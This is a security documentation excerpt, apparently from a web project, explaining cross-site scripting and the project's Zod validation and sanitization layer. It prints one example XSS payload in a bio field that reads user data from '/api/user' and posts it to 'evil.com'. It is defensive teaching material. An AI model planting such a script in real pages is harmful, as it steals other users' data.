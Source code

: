 #### Understanding XSS (Cross-Site Scripting)

**The attack:**

Attacker enters in bio field: `<script>fetch('/api/user').then(r=>r.json()).then(d=>fetch('https://evil.com',{method:'POST',body:JSON.stringify(d)}))</script>`

Without sanitization, when other users view this profile:
1. The script executes in their browsers
2. It steals their user data
3. Sends it to attacker's server
4. Victims never know they were compromised

**Real-world XSS consequences:**

British Airways 2018: XSS vulnerability allowed attackers to inject payment card harvesting script. 380,000 transactions compromised. £20 million fine under GDPR.

MySpace Samy worm (2005): XSS vulnerability allowed a self-propagating script that added the attacker as a friend to over 1 million profiles in 20 hours. While mostly harmless (just adding friends), it demonstrated the potential: the same technique could have stolen credentials or payment data.

#### Our Input Validation Architecture

**Why Zod:**

Traditional validation uses regular expressions and manual checks—error-prone and often incomplete. Zod provides:
- **Type-safe validation** (TypeScript knows what's valid)
- **Composable schemas** (reuse validation logic)
- **Automatic transformation** (sanitization built-in)
- **Clear error messages** (helps users fix mistakes)

**The sanitization strategy:**

We remove dangerous characters (`< > " &`) that enable XSS attacks, while preserving apostrophes (`'`) for legitimate names like O'Neal, D'Angelo, McDonald's.

Why not remove all special characters? Because then users named "O'Neal" can't enter their names. Security must balance safety with usability.

**Industry validation approach:**

According to OWASP and NIST guidelines, the secure approach is:
1. **Validate** (check format/type)
2. **Sanitize** (remove dangerous content)
3. **Encode on output** (escape when displaying)

We do all three: Zod validates format, transform() sanitizes, React escapes output.

**Files:**
- `lib/validation.ts` - Reusable Zod schemas (11 pre-built schemas)
- `lib/validateRequest.ts` - Validation helper that formats errors

**Usage Pattern:**
```typescript
import { validateRequest } from '@/lib/validateRequest';
import { safeTextSchema } from '@/lib/validation';

const validation = validateRequest(safeTextSchema, userInput);
if (!validation.success) return validation.response;

// validation.data is now:
// - Type-safe (TypeScript knows the shape)
// - Sanitized (XSS characters removed)
// - Validated (length, format checked)
```
